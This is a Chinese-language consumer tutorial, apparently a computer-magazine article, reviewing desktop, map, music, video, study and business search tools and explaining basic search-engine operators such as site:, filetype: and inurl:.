    网页中一切可让搜索引擎抓取的文本中都尽量带有关键词。Google Desktop Search的搜索范围是可以选择的。在属性设置页中，提供了多种类型供用户勾选，包括：电子邮件、聊天记录、历史记录、媒体文件、Office系列文件、PDF、联系人、日历、任务、便笺、日记、Zip文件等。Google桌面搜索并未提供设置密码的功能，不过可以切换到使用偏好页，重新设置不希望检测的文件路径或网站。

    ### （3）进行本地文件搜索
    由于搜索速度非常快，可以把它当作一个简易的文档搜索器来使用。而且，Google Desktop Search还可以智能地避开可能与搜索无关的文件，如dll、exe、bin、mib等格式。以Word文档搜索为例。如果选择“word”，那么搜索时，匹配关键字将不仅仅局限于word文档标题，还将深入到文档的内容中。

    > **小技巧：** 软件不支持Windows式的通配符搜索，比如查找硬盘上所有的word文档时，应输入命令“filetype:doc”，而不是“*.doc”。这个功能可以帮助恢复误删的文档。当一个文档被删除不久时，使用Google Desktop Search仍然可以将它查找出来。

    总的来说，Google Desktop Search的搜索功能强大，搜索速度也很快，搜索结果以Google网页搜索形式出现；浏览器历史记录搜索出来的页面还可以以缩略图显示，用户还可以把指定的目录和私人信息从搜索结果中过滤出去。不过，需要注意的是，使用Google Desktop Search时，还要考虑安全和隐私的问题。由于Google桌面搜索功能十分强大，如果使用的是公用计算机，那么可能会有泄露自己隐私的危险，例如邮件、图像、文件等都可能透露出那些原本应该被保密的信息，而且即使在搜索网页时，仍然会首先在桌面搜索符合条件的结果。

-   2. 百度本地硬盘搜索V2.7
    软件下载地址：http://disk.baidu.com

    百度硬盘搜索是一款搜索硬盘资料的软件，最明显的特点是全面支持中文分词，能够快速、准确地帮助用户从个人电脑中查找到想要的信息，尤其是中文信息，相对其他国外软件具有很大的优势。另外一个特点是，该软件提供密码保护，可以妥善维护用户隐私。

    ### （1）建立索引
    安装好百度硬盘搜索后，程序会自动建立硬盘的首次文件索引，并且在硬盘空闲时索引建立会自动运行。右击任务栏上的图标，在弹出的菜单中选择“状态”命令，在打开的网页中即可查看百度硬盘搜索的状态，我们能很清楚地看到建立索引的时间以及相关类型文件的数量，如图2所示。

    ### （2）搜索结果
    软件支持的搜索对象很多，包括：邮件、历史网页、Office文档、文本文件、媒体文件、MSN聊天记录、PDF文档及程序与压缩文件等。找到百度硬盘搜索界面，在网页中间的输入框中输入要搜索的关键字，输入完毕单击“硬盘搜索”按钮，搜索结果立刻就显示出来了。在实际应用中，如果我们只希望在某一类型的文件中进行查找，或者有些私人文件夹不希望参与查找的范围。可以右击任务栏上的图标，在弹出的菜单中选择“设置”，在打开的搜索设置网页中你可以根据自己的需要取消某些搜索类型的文件，也可以添加没有被列出的其它类型。

    ### （3）隐私与安全保护
    百度硬盘搜索提供了一个“安全锁”保护。右击任务栏上的图标，在弹出的菜单中选择“使用密码”菜单中的“创建”命令，在打开的窗口中你只需按照要求输入访问的口令和密码提示，并单击“创建密码”按钮即可成功将“百度硬盘搜索”加锁保护。如果忘记密码，可通过“密码提示”找回密码。

    从界面和功能来讲，百度硬盘搜索的全中文界面简单实用，十分符合国内用户的使用习惯。软件的搜索速度和# 超级软件教程

准确度也令人满意，并且对中英文的支持都很优秀。另外，软件在安全方面的表现比较出色，可以有效保护用户的私人信息。不过，其索引速度还有待提高，对文件格式的支持都还有待增加。

### 3. 其他本地搜索软件

在本地搜索方面，还有不少优秀的软件，简单列举如下：

- (1) Yahoo! Desktop Search
  软件下载地址为：http://desktop.yahoo.com
  这是 Yahoo!全新推出的桌面搜索工具。它支持近 300种格式。软件采用单独的桌面搜索界面，功能比较强大。
  和其他软件一样，在第一次运行软件的时候，需要建立索引文件。“File”选项中可以根据文件的类型对索引文件进行具体的设置。
  搜索之前，首先要精确关键字，此外还可以通过文件的全称、类型、日期、大小和文件路径来具体进行搜索。这样经过筛选之后，很容易就能找到自己所需的文件。
  在 Yahoo! Desktop Search 的搜索栏里面输入要搜索的关键字，不用按回车键，就会在下面出现相对应的文件。关键字以桔红色进行显示，这样显得更加醒目。
  Yahoo! Desktop Search 对中文支持不是很理想，如果 IE 不是默认浏览器的话，无法正常进行搜索。

- (2) 微软桌面搜索工具
  软件下载地址：http://download.microsoft.com
  MSN Toolbar Suite 包含了能搜索互联网页面的 MSN Toolbar，它能搜索本地文件的 MSN Deskbar 和搜索 Outlook 邮件中特定内容的 Outlook Toolbar。比如，在 Windows 资源管理器中使用时，它会调用 MSN Deskbar；在 IE 中使用时，就是 MSN Toolbar；在 Outlook 中使用时，则换到 Outlook Toolbar。因此，其灵活的转换将会极大地方便用户的搜索操作。

- (3) 中搜网络猪
  软件下载地址：http://www.zhongsou.com
  “网络猪”不仅提供专业的中文搜索技术，强大的硬盘搜索功能，还提供更先进的划词搜索方式，网络猪使用中文智能搜索技术，以及为用户提供个性化的主题定制服务。
  在大界面中，切换到“硬盘搜索”栏，填写关键字，按下回车，搜索结果就出来了，而且排列也很整齐美观，点击文件，还可以看到文件概要。
  从本质上来说，网络猪其实是一个融合了新闻定制搜索和桌面搜索的产品。

- (4) 88Data
  软件下载地址：http://www.88data.com
  在文件查找之前首先要建立文件索引，点击网页的“系统管理”链接，再在出现的页面中点击“开始扫描”链接便可对本机中的文件建立相应的索引了。需要注意的是，初次使用该软件总会自动开始建立索引，以后如果硬盘文件改动不大，可以点击“优化数据”链接实时修改索引文件，给用户快速查找提供强有力的后盾。

## 二、精确定位：专业地图搜索工具Mapbar

初到外地，尤其是到北京、上海这样的城市，那如蜘蛛网般纵横交织的公交线路、以及交错无章的立交桥对许多人来说，恍如迷宫一般。人们常常会被那些分布在不同地点的同名站弄得晕头转向、被那些忽左忽右的指示箭头颠倒方向……

Mapbar的地图搜索工具“小ME”是一款免费绿色软件，其设计初衷是为大众提供电子地图搜索服务，例如地点搜索、公交换乘方案查询、驾车路线指引服务等。

软件下载地址：http://me.mapbar.com/download.html。

地图搜索是一种比较专业化的信息搜索服务，除了需要搜索技术做后盾，还需要丰富的地理知识。Mapbar的最大优点来源于地图的浏览速度以及丰富的地图数据量，通过栅格地图浏览方式，使得用户可以快速浏览和移动地图图片，同时可以提供全国430多个城市的地图查询和公交查询服务。登录网站下载最新版本的“小ME”，双击图标即可打开搜索工具。

### 1. 地图浏览和搜索服务

只要能上网，大部分的用户都可以找到自己所在的地方。需要搜索具体的地点或周边时，选择菜单项上的“地图查询”，输入查询关键字即可出现大概方位。例如，输入《电脑爱好者》杂志社的地址：“曙光国际大厦”，结果会显示在右侧的查询结果中并同步在地图上显示。或者直接在地图上单击“地图查询”，输入关键字“曙光国际大厦”也可查询所在位置，如图3所示。



就像物理学中确定物体的位置需要参照物一样，在“小ME”电子地图中，以区域或者点为单位，可以搜索区域内或者当前位置周边的相关数据，并可以随意控制范围大小和信息类型。例如，以“曙光国际大厦”为中心查找周边。首先，找准需要查找的大概位置，放大地图，然后单击右键，选择“查询周边”，可以输入关键字查询，结果会自动标注在地图上，这样就有了参照位置。同时，查询的文字结果也会显示在软件右侧的窗口上，如图4所示。



**小技巧：浏览地图的方法有：**

- 1. 通过地图上的缩放栏
  拖动滑块向上可以放大地图，向下可以缩小地图。拉动杆两端的“+”、“-”按钮可以放大或缩小；点击中间的“标尺”按钮可以在地图上测量距离。
- 2. 通过鼠标操作
  鼠标滚轮向前可以放大地图，向后滚动缩小地图；地图上双击左键可以以当前点为中心放大；按住鼠标左键拖动可以移动地图。

### 2. 公交换乘和驾驶路线

在日常生活中，无论搭公交车还是自己驾车出门，第一件事情就是需要有一个方便的路线图。在某些人流量比较多的地方，有人甚至打出了“问路收费”的招牌。不过，现在有了“小ME”，这些人就可以下岗了。软件提供了460多个城市的公交换乘方案与路线地图标示，将地图、路线、描述完美地结合在一起。

以公交换乘为例，如果现在要从“曙光国际大厦”到“天安门”，软件就会提供多种选择方案。
首先，在右侧的“公交换乘”区域的“起点”和“终点”文本框中，分别输入关键词“曙光国际大厦”和“天安门”。
然后，点击“搜索”按钮，因为站点具有不确定性，所以需要确定起点站和终点站。
选择完毕，再次单击“搜索按钮”，即可看到6条详细的换乘方案。
每条结果都对详细的乘车路线进行了说明，描述简洁而清晰，如“从彰化村出发，乘坐33路（公主坟-黄庄），在公主坟换乘地铁一号线（苹果园-四惠东），抵达天安门东。”。同时，在地图上用一根大红的粗线标注了行车路线，如图5所示。



十分类似，而且更加详细，关于某个路口的拐角也描述的清清楚楚。
查询时，只需在右侧的“驾驶路线”区域输入关键词即可。在详细的路线信息中，对行车路线的步骤、全程距离和每个步骤的距离都进行了详细描述，令人赞叹不已。同时，在地图上也对最近最快捷的距离用红线进行了标注。
为了方便用户保存查询信息，软件还提供了邮件发送地图快照、手机发送路线结果等方式。如果觉得有必要，还可以将当前窗口的地图以及查询结果打印出来。点击“工具箱”菜单下的“打印地图”选项，即可开始打印。此外，还提供了发送地图到MSN/QQ好友、在地图上标注地点等服务，考虑十分周到。

### 3. 地图应用服务

刚到一个陌生地方时，我们还面临着衣食住行的问题。通过“小ME”电子地图，可以很轻松地搜索美食地点。在软件中，可以查看全国旅游景点位置和信息，包含了景点图片、住宿、饮食、风俗历史等全方位资讯。此外，还可以提供实时的房屋信息，提供实时的机票信息等。
查询路线时，还可以直接登陆地图搜索网站进行查询，以获取更丰富的信息。地址为：http://main.mapbar.com/。通过网站和软件的配合，可以达到很好的效果。
还可以登录其他旅游搜索，如搜驴（http://www.chinaevery.com），它不仅提供综合性质的旅游信息搜索，也提供旅游照片搜索，线路比价搜索及酒店比价搜索。另外用它来查看驴友的旅游心得也不错，这些非常实用的分类搜索对旅游出行可以起到很好的指导作用。
当然，如果不满足于一个搜索提供的信息：“去哪儿”（http://www.qunar.com）、全球旅游搜索（http://www.world163.com）、搜游记（http://www.soyoji.com）这几个搜索网站也可作为参考。“去哪儿”和搜游记主要为关心价格的驴友们提供信息，而全球旅游搜索除了能在引擎首页直接进行价格的查询，还可对旅游相关的新闻或博客进行搜索。

如果有自己的爱车，也可以亲自驱车前往，当然，出门之前也要首先把路线图弄清楚了。查询方法与公交换乘十分类似，而且更加详细，关于某个路口的拐角也描述的清清楚楚。

## 三、赏心悦目：专业音乐和视频搜索工具

音乐和视频是比较常见的两个搜索项目了，除了通过百度MP3等大型搜索引擎，还有不少优秀的搜索工具，简单介绍如下。

### 1. 天籁之音：专业音乐搜索工具

软件下载地址: http://www.kugoo.com/

KuGoo提供了一个共享音乐和互相交流的平台，其最新版本为V3.0，它能够实行多源下载，明显提升下载速度。

下载安装程序后，完成注册。首次登录后，软件会提示用户指定某一个目录作为共享。软件内置了漂亮时尚的音乐播放器，位置在主界面的最下方，用户能体会到一种超值的感觉，软件整体看上去十分清爽。

KuGoo V3.0的分布式音乐搜索是最出色的亮点所在，基于P2P技术打造的软件歌曲下载速度让人感觉非常流畅，这也使得传输速度再次提升。

通过KuGoo，用户可以方便、快捷、安全地从全球KuGoo用户中快速检索所需要的资料，还可以与朋友间相互传输影片、游戏、音乐、软件、图片。

点击“音乐搜索”按钮，即可进入搜索界面。在上方的文本框中输入想要寻找的歌曲名，如输入关键词：“月亮”，就可以显示出所有用户共享的网络音乐文件。软件支持的搜索格式十分丰富，包括：.mp3、.wma、.ape和.ogg等。

如果在KuGoo没有搜索到喜欢的音乐资源，还可以点“网页搜索”按钮，搜索后会出现更多的相关音乐资源！

找到心仪的歌曲后，双击想要的文件就可以开始下载。或者选定该文件，单击右键，点“下载”按钮，也可以开始下载。在右键菜单里，还可以选择“在线试听”，方便用户选择下载歌曲。试听时，播放器中会出现颜色交替变化的歌词，非常体贴周到，如图6所示。



KuGoo V3.0充分考虑了用户的个性化需求，在很多细节上让用户感觉很舒服。例如，在搜索音乐的页面、添加了搜索进度条、采样率和比特率显示，为讲究音质的用户提供了方便；对搜索音乐进行归纳，这样进行音乐检索更简单；对正在下载的音乐的歌名则呈绿色，已经存在共享音乐文件夹的歌曲名则呈蓝色，避免重复下载。

### 2. 尽收眼底：专业视频搜索工具

软件下载地址: http://www.woshow.com.cn/

随着宽带的日益普及，我们的网络不再局限于图片、文字以及音频信息的交换，更加直观的视频信息也开始在网络流行开来，但是分散的视频片断搜集起来很困难，因为普通的综合搜索引擎的命中率往往是比较低的。如何才能从海量视频中尽快找到自己想看的内容呢？

VVShow（视频搜索播放软件）是一款能够对网络视频进行搜索、分享、直播的视频媒体体验终端。它采用了P2P 流媒体数据分发、智能缓冲、智能连接等先进技术，能够在现有的Internet环境下，给用户最完美的体验。软件播放界面美观、播放效果更快、连续播放更流畅。播放界面可以放大缩小或者全屏，选择灵活。而且不带任何第三方插件，运行占用系统资源少。

在搜索视频时，VVShow提供了按分类和按关键字两种搜索功能，建立有庞大的明星视频库。通过采用自动搜索技术 + 人工筛选的方式，使视频内容更准确。用户利用VVShow搜索时，结果都是相关度很高的视频内容，同时通过关键字匹配，使相关视频能一次性准确呈现给用户。它可以将最新的娱乐资讯、最热的视频内容、最热的网络事件通过今日焦点的形式主动推荐给用户。例如，在“搜索”主界面中，输入“火箭”，即可看到相关的搜索结果，选择其中的“火箭 VS 国王姚明集锦”，界面如图7所示。



此外，搜索视频时，还可以配合以下专业视频搜索，如秋毫视频搜索引擎（http://www.qiuhao.net），Tvix草根视频分享平台（http://search.tvix.cn/），获得更加丰富的视频资料。总之，视频必将是搜索引擎的一种主要的信息输出方式，不断发展的宽带网络大环境将造就专业视频搜索的繁荣和壮大。

## 四、学海无涯：专业学习类搜索工具

在学习的过程中，我们总会遇到很多难以解决的问题，在百度或Google上搜索时，搜索的结果十分庞杂，难以得到有效的解答。通过专业学习类搜索工具，可以更快更准地找到答案。

### 1. 专业文件资源搜索

软件下载地址: http://maze.tianwang.com/download.html

“天网Maze”是北京大学几位硕士研究生在2003年暑假的开发成果，目的是解决当前FTP服务器的缺陷，以及在 FTP 搜索引擎内找到资源却无法有效下载的问题。其核心理念是“服务校园，服务教育”，因此，在校园网、教育网中具有很高的知名度。软件集个性化搜索、大学精品课程、网络课堂、教育商城、即时通讯等诸多功能于一体，是一个全新的个人桌面信息平台。软件安装后，首先需要注册，登录后可以看到十分清爽的界面。

在上方的搜索栏中，输入关键词，如“策划书”，点击“搜索”按钮即可看到搜索结果。如果需要进行复杂搜索，则可单击“高级搜索”按钮，弹出高级搜索对话框，在“关键词包括”后的文本框中填入查询结果必须包含的关键词，还可在“文件大小”中对查询文件对象的文件大小进行限制。软件界面如图 8 所示。



> 图 8

除了软件，还可以登录网站搜索并直接下载，地址为：http://bingle.pku.edu.cn。它将文件分为影视、音乐、软件、游戏四大类，用户可以像目录导航式搜索引擎那样层层点击、查找自己需要的文件，而且大部分都是 ftp 地址文件，下载十分方便。在搜索过程中，用户可以选择“只显示当前可下载文件”，尤其适合一些文档资源的搜索。

### 2. 专业词典搜索

软件下载地址：http://www.iciba.com

“金山词霸 2007”和“爱词霸在线词典”（http://www.iciba.com/）是金山公司推出的专业词典搜索工具，主要专注于以词霸网络百科全书为主的专业搜索领域。在软件查询时，集成了网络搜索的功能。如果对软件搜索的结果感觉不太满意，可以结合“网络查询”功能，得到更加详细的解释、知识或者解答。通过这两个联合搜索工具，不仅能够给出单词的词性、音标（拼音）、详细释义、例句、词性变化、习惯用语等，还能查询词组、成语和惯用法的翻译，甚至是该单词的中英文近义词、反义词。

“爱词霸在线词典”网页界面设计的非常清爽、简洁，简单的输入框加上搜索功能按钮，让普通用户操作起来极为方便。它采用了先进的中文信息识别技术，将 180 部词典的几十万例句通过智能处理，形成庞大的多维检索知识库。用户输入查询短句后，经过系统自动分词，提取出语法模式，随即会在知识库中找到最匹配的例句提供给用户，非常方便，并把简明英汉词典等比较常用的词典的词义、解释展开排在最前面，如图 9 所示。



> 图 9

此外，“爱词霸在线词典”还具有独特的“多语言支持”功能，无论输入中文、英文、日文、法文、德文的单字或者词组，都可以进行检索。词霸搜索中包含 3 万常用英文单词的真人发音，在搜索结果中点击小喇叭图标即可在线听到纯正的美语发音，还有 1300 多个洋话连篇在线视频，由专业外教讲解单词的释义和例句，对提高听力和口语都非常有帮助。同时，用户也可反馈词典中的错误，这样的互动会使词霸搜索的结果越来越丰富，越来越精准。

### 3. 书籍类专业搜索

推荐地址：http://book.httpcn.com/search 或 http://soshu.myrice.com

书海茫茫，如果找到自己喜欢的书籍呢？借助专业搜书引擎可以解决这个问题。目前，国内较为优秀的搜书引擎有：电子图书搜索（http://book.httpcn.com/search/）、多来搜书（http://soshu.myrice.com/）等。下面，以电子图书搜索引擎为例，它甚至提供了数万本电子图书供免费下载，如图 10 所示。



> 图 10

打开“电子图书搜索”，可以看到图书分为综合类、科教类、小说类三大类。为了更好地把握具体图书分类，网站还列出了“E 书分类导航”，对每个大类对应的详细子分类也进行了罗列。搜索方式包括“书名”和“作者”二种，用户可以任意选择。当然，这里只是列出了部分电子书，如果希望了解其他图书的出版情况，还可以在“多来搜书”中得到更加详细的结果。

### 4. 知识类专业搜索

推荐网络版地址：http://www.ecph.com.cn

在写论文或者研究相关学科的时候，我们很需要相关方面的权威专家来进行解答。中国大百科全书网络版以《中国大百科全书》和中国百科术语数据库为基础，提供了供用户检索使用的《中国大百科全书》，共收条目78203条，计12568万字，图表5万余幅。内容涵盖了哲学、社会科学、文学艺术、文化教育、自然科学、工程技术等66个学科领域。在搜索方法上，软件提供了分卷检索、全文检索、条目顺序、组合检索等检索方法，点击图标可进入相应的页面。此外，软件还提供几十种逻辑检索的语句检索方式。在条目正文中提供了打印、下载、复制的功能，使用户操作更加方便。如图11所示。



此外，新浪推出了“新浪爱问”(http://iask.sina.com.cn/)，百度推出了“百度知道”(http://zhidao.baidu.com/)，雅虎推出了“雅虎知识堂”(http://ks.cn.yahoo.com/)，这些都是积分制的互动问答平台，用户可以在这里提出问题和找到答案。

## 五、把握商机：专业商务搜索工具

在全球经济网络化、数字化逐步形成的形势下，企业能否快速跟进新技术、适应网络经济的紧迫挑战，就变得十分重要了。在把握信息的过程中，专业商务类搜索工具起着十分重要的作用。

### 1. 专业供求信息搜索

推荐地址：http://www.shangsou.com

“商搜”适合于各类中小型企业和商务精英，通过方便快捷的网络推广服务，可以帮助企业发布供求信息、搜索最新商机。平台对国内200余万家的企业资源数据库进行了整合分类，具有很高的商业价值。在页面上，包括了求购信息、供应信息、商品信息、商品图片、公司信息等栏目，如图12所示。



### 2. 专业黄页搜索引擎

推荐地址：http://www.chinayp.com.cn

黄页信息的最大优点是真实可信，对于需要查找公司信息的商家来说，这种服务就显得十分重要了。黄页网是中国网通中国电话号簿公司旗下提供黄页增值服务的搜索引擎。通过先进的搜索模式、黄页所特有的科学合理的分类，可以为互联网用户提供本地化的企业信息和消费信息的查询。在服务上，黄页信息主要为用户提供工商和消费两大业务领域搜索。其中，工商黄页可以实现企业所在行业、企业名称、产品、品牌等多条件搜索，消费黄页主要面向各地区网民提供本地衣食住行等本地搜索，实现消费者及时获得本地最新消费动态和相关信息。

### 3. 专业求职招聘搜索

推荐地址：http://www.globejob.com

对于求职者来说，如果在Google、百度等综合网站进行职位方面的搜索，恐怕会得到数万条职位信息。专业求职招聘搜索则能够有效提高互联网上信息专业领域信息的匹配效率，搜职网就是其中的优秀代表。

搜职网提供的职位搜索引擎持专业搜索利器，可将国内各大招聘网站的招聘信息一网打尽。它一方面具有Google等搜索引擎的搜索特性，用户在这个网站可以直接浏览国内所有招聘网站的招聘信息。另一方面它提供了非常人性化专业化的求职和招聘服务，比如一次建立简历就可以投递各大招聘网站的职位，自动群发简历，提供个人的个性化网站服务等等。

例如在该搜索引擎中查找“软件工程师”职位，那么无论是在51job、智联招聘、中华英才网还是各大公司或其他单位网站上的招聘信息，都可以在搜职网的搜索结果得到该招聘索引链接。这种精准的专业搜索通过对互联网上既有信息进行有效的整理，为求职者或用人单位提供精准的信息。

通过上述专业搜索工具之间的巧妙配合，我们就可以充分领略到专业搜索带来的强大功能了。当然，除了以上所列工具，还有专业博客搜索、专业房地产搜索引擎、法律搜索引擎、医疗信息搜索引擎、移动搜索引擎等，这都有助于各行各业的人们更快更好的利用信息。

让人感到欣喜的是，越来越多的风险投资开始流向专业搜索引擎。因此，专业搜索将逐渐为该领域内的用户提供一个更好的知识共享平台。通过这个平台，用户不仅能获得所需知识，同时也可以为其他用户提供帮助。简而言之，用户的划分越细，对搜索结果的要求就越精，专业搜索引擎的发展前景也将越来越好。

# 搜索引擎成长之路

文 / 郑理

众所周知，互联网已成为了信息和资源的海洋。那么如何才能在这一大海中熟练地冲浪呢？掌握必要的搜索技能无疑可为冲浪提供便利。本文将循序渐进，介绍各类互联网搜索的使用和技巧，帮助读者举一反三，充分利用互联网来进行各类网络信息的查询，从而给工作、学习和日常生活带来极大的便利。

## 一、搜索引擎使用入门

### （一）初识搜索引擎

#### 1. 什么是搜索引擎

搜索引擎也是一种网站，但与其他直接发布信息的网站不同，其主要工作是搜索其他网站上的信息，并将这些信息进行分类、建立索引，然后将索引内容存放至数据库中。当用户向搜索引擎提交搜索请求时，搜索引擎会从数据库中寻找匹配的资料，并通过网络再反馈给用户，用户即可按查询的信息去访问相应的网站，从而进一步获取所需的资料。

#### 2. 搜索引擎的分类

从功能的角度分析，搜索引擎可分为两类，一类是目录索引，一类是全文搜索，具体如下所述：

##### （1）目录索引

目录索引类搜索引擎类似电话号码簿，其按各个网站的性质将网址分门别类地加以整理，大类中套小类，直至各网站的详细地址，一般还会提供一些网站的内容简介。用户不使用关键字即可进行查询，只需找到相关目录，即可找到相关的网站。

目录索引类搜索引擎为用户提供关键字查询功能，但在查询时只可按网站的名称、网址和简介等内容进行查询，因此查询结果也仅为网站的地址。由于这类搜索引擎的数据一般由网站提供，因此搜索结果并非完全准确，不是严格意义上的搜索引擎。

目录索引中最具代表性的是Yahoo，其他还有Open Directory、LookSmart等。

##### （2）全文检索

全文检索搜索引擎利用一种称为“蜘蛛”程序的工具，蜘蛛程序以极快的速度不间断地像蜘蛛一样在互联网上提取各个网站的信息来建立数据库，并向用户提供查询服务，是一种真正意义上的搜索引擎。

全文检索搜索引擎数据库中的数据来源有两种，具体如下所述：

- ①定期搜索
即每隔一段时间搜索引擎就主动派出“蜘蛛”程序，对一定IP地址范围内的互联网站进行检索，一旦发现新网站，即自动提取网站的信息和网址加入数据库。

- ②网站提交信息
即网站“站长”主动向搜索引擎提交地址，搜索引擎会在一定时间内派出“蜘蛛”程序搜索所提交网站的相关信息并存入数据库。

总而言之，上述两种数据来源均使用了“蜘蛛”程序来搜索网页的具体内容，因此搜索可精确至具体网页。当用户以关键字查找信息时，搜索引擎会在数据库中进行搜索，当查找到符合条件的网站后，即可按其特定的算法排列顺序后将网页链接反馈给用户。

全文检索最具代表性的当属Google、百度，其他还有AlaVista、Excite、Hotbot等。

##### （3）混合式搜索引擎

互联网发展至今，全文检索和目录索引已开始相互融合，一些全文检索搜索引擎也开始提供目录索引服务，并在搜索结果中直接列出其他目录索引的网站，如Google就在其搜索结果中列出Open Directory的网站，从而扩大了搜索范围。

##### （4）社会化搜索

社会化搜索来源于元搜索引擎，即用户只需提交一次搜索请求，搜索引擎即可将关键字转换处理后提交给多个预先选定的独立搜索引擎，并将从各独立搜索引擎返回的所有查询结果集中处理后显示。社会化搜索引擎，除可让用户搜索网页外，还具备了随意保存及共享网页的网络收藏功能。因此，各类使用社会化搜索引擎的用户在搜索时还可浏览、共享其他用户的网络收藏。

### （二）搜索引擎的基本用法

虽然网络搜索引擎非常之多，但其具体使用方法却较接近。如前所述，搜索引擎分为全文检索和目录索引两种类型，因此本节也按两方面来讨论如何正确使用不同类型的搜索引擎。

#### 1. 全文检索搜索引擎的使用

谈到搜索引擎，尤其是中文搜索引擎，百度搜索引擎（网址：http://www.baidu.com）是目前最大的中文搜索引擎，下面以百度搜索引擎为例进行介绍。百度搜索引擎的首页如图1所示，



百度搜索引擎的基本使用方法非常简单，只需在搜索框中输入关键字，然后按一下回车或单击“百度搜索”按钮即可将相关网页提供给用户。如输入“电脑爱好者”，百度会反馈如图2所示的页面：



搜索结果按照特定的方法排列在页面上。每个搜索结果都包括网页链接、网页简介、百度快照和该网站上的更多结果。单击网页链接可访问到相关网页，该网站上的更多结果会在该网站中以输入的关键字进行搜索。如当前页没有要查找的结果，可在页面的底部单击“下一页”或其他指定页码查看其他搜索结果，如图3所示：



#### 2. 社会化搜索引擎的使用

以社会化搜索引擎bbmao网站（网址：www.bbmao.com）为例，该网站的搜索功能集成了主流搜索引擎Google、百度、Yahoo和中搜等，且速度也非常快。
bbmao的界面很简洁，且提供了可下载的工具条。此外，bbmao以标准的形式展示搜索结果，按关键字在主流搜索引擎中的出现频率，自动从结果和排名中剔除重复信息。该网站的使用界面如图4所示。

输入关键字“电脑爱好者”，即可进行搜索。在搜索结果中可发现，搜索引擎将按辅助关键字对搜索结果进行分类，让用户可更清晰地浏览搜索结果，且单击不同的分类链接，还可进一步显示更细化的分类，如图5所示。




### （三）快速高效搜索的注意事项

在使用搜索引擎时，为避免欲速不达，仍需注意一些事项，具体如下所述：

#### 1. 先思考再搜索

搜索引擎仅是一种工具，因此不可能找到网上不存在的资料。任何一个搜索引擎也不可能涵盖互联网所有的网站，在使用搜索引擎搜索前，需思考所查询的资料是否已发布在互联网。此外，有些内容也不必一味依赖搜索引擎，如最新的新闻，往往只需直接在各个新闻网站浏览即可，而电话号码之类的信息，往往不必依赖搜索引擎也能方便地寻找到。

#### 2. 挑选关键字

好的关键字就是搜索成功的关键。关键字通常代表需搜索资料的特征，因此最好具有唯一性，在确定关键字的时候，将多个关键字结合使用可起到很好的效果。如学习了解某个软件的使用方法，可以用“某某软件 使用方法|技巧”作为关键字进行搜索，即可基本排除和使用方法无关的下载信息等资料。

#### 3. 选好搜索引擎

在搜索之前还需按所查询的资料选择使用搜索引擎。如仅搜索某一类信息，可使用目录索引，不仅信息非常可靠且几乎没有垃圾信息，而如需查询具体的资料，可使用全文检索搜索引擎。其次，按所需搜索的资料类型选择搜索引擎。如仅搜索一般资料，任何搜索引擎均可，而如搜索特殊资料，如图片、视频等，可在专业的搜索引擎搜索。最后，在搜索资料时，还需确定所用的语言，如查找外语原版资料，那么国外搜索引擎往往是最好的选择，而搜索中文资料，还是国内的搜索引擎最佳。

### （四）避免低级搜索错误

如用户在搜索时没有找到所需的资料，那么有必要检查是否犯了一些低级却又常常被忽视的错误。

#### 1. 错别字

中文的错别字和英文的错误拼写是在使用搜索引擎时最常发生的错误之一，如输入用“以德制国”关键字绝对找不到关于“以德治国”方面的资料，而查询“叶利钦”时，如输入“夜利钦”、“叶力钦”、“叶利亲”等，这些关键字查到的资料也不会相同。虽然很多搜索引擎目前已会给出纠错的提示，但在使用搜索引擎时仍需尽量避免出现错别字。

#### 2. 关键字过于常见

搜索的关键字过于常见，往往也会导致无法搜索出所需的结果，如用“手机”作为关键字搜索，会发现很多和手机相关的网页，如价格、技术资料、手机铃声等，因此应尝试使用更多的关键字来缩小搜索范围。

#### 3. 避免多义词

很多关键字本身在不同行业具备了不同的含义，如“移动”，既是一个名词，又多用于通信行业的“中国移动通信”，因此此类关键字需添加关键字进行辅助搜索，从而得到满意的结果。

#### 4. 避免使用停用词

停用词主要指英文搜索引擎中使用过于频繁的单词，如“is”、“i”、“what”、“it”等。很多搜索引擎在分析网页内容时遇到停用词往往不会进行检索，因此也就很难给出精确的结果。如搜索关键字“Who am I”（“我是谁”的英文），由于关键字中的“Who”和“I”都是停用词，因此用户可添加“+”号来加以强制搜索，如“+Who am +I”。

## 二、常用资料搜索技巧

### （一）巧搜指定类型文件

用户如需使用搜索引擎来搜索某种特定类型的文件，可借助 Google 的文件类型搜索来实现。打开浏览器，访问 Google 搜索引擎（网址：http://www.google.com）。随后即可按需输入搜索的关键字，如搜索标题包含“电影”且网址中包含“rmvb”的网页，可输入：“intitle:电影 inurl:RMVB”关键字，如图 6 所示。

该关键字应用了两个 Google 搜索专用的符号，具体如下所述：

- intitle：该标签表示在搜索的网页中，搜索网页标题包含的内容。



- inurl：该标签表示搜索的网页地址应该包含的内容。

该关键字搜索的结果为网页标题包含“电影”且网页地址包含“RMVB”字样的网页。不过，这样的搜索结果有时无法令人满意，因此不妨进行改进，将搜索条件改进为：“inurl:rmvb filetype:rmvb”，如图 7 所示。


改进后的关键字应用了“filetype”关键字，该关键字可进一步将文件扩展名限制为“rmvb”，从而精确地实现了文件类型查找。

### （二）限定站点搜资料

如用户需获得某个指定网站中是否有所需的资料，那么可通过“site:”搜索关键字来将搜索范围限定于某网站，从而提高查询效率。如限定在新浪的新闻频道（网址：news.sina.com.cn）中搜索“基金”关键字，可输入关键字：“基金 site:news.sina.com.cn”，如图 8 所示。



小提示：“site:”搜索关键字和站点名之间不可带有空格。

### （三）随心所欲筛选搜索

很多搜索引擎均支持各类参数的搜索方式，因此可利用该特性来定制搜索结果，实现更符合需求的高级筛选搜索。本例将以百度搜索引擎为例进行介绍。

**搜索排除法**

如搜索“亮剑”但不希望包含“李幼斌”关键字，可在搜索栏输入：“亮剑 - 李幼斌”关键字。随后搜索的结果将包含“亮剑”关键字而不包含“李幼斌”关键字，如图9所示。



用户还可借助搜索符号来实现逻辑的“或”操作搜索，如需搜索关于“亮剑”关键字或“李幼斌”关键字的网页，可输入搜索内容：“亮剑 | 李幼斌”。搜索结果将包含“亮剑”关键字或“李幼斌”关键字，如图10所示。



小提示：在使用百度搜索引擎时，还有很多操作符可利用，这些符号对于精确搜索范围可发挥相当重要的作用。这四个操作符为：空格、“OR”、“-”和双引号，其中前三个操作符即为常见的“与”、“或”和“非”逻辑操作。
对于基于单词搜索的搜索引擎，如Google，还可使用半角状态的双引号来将一个完整且包含空格等搜索符号的短语作为关键字，避免了搜索引擎误解了操作符号。如搜索关于第一次世界大战（World war I）的英文信息，可输入 "World war I"。
上述的操作符在输入时均应使用英文和半角。此外由于空格也是其中的操作符，因此操作符与关键字之间不可有多余的空格，且操作符需使用英文大写字母。

### （四）巧用快照搜索
